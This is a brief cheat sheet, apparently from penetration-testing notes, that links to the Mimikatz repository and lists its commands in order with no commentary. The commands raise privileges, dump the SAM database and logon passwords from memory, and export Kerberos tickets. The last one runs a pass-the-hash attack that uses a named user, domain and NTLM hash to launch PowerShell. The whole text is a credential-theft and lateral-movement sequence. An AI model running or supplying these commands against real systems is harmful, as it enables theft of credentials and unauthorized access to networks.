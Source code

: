 https://github.com/gentilkiwi/mimikatz

```
mimikatz.exe
```

```
privilege::debug
```

```
token::elevate
```

```
lsadump::sam
```

```
sekurlsa::logonpasswords
```

```
kerberos::list /export
```

```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

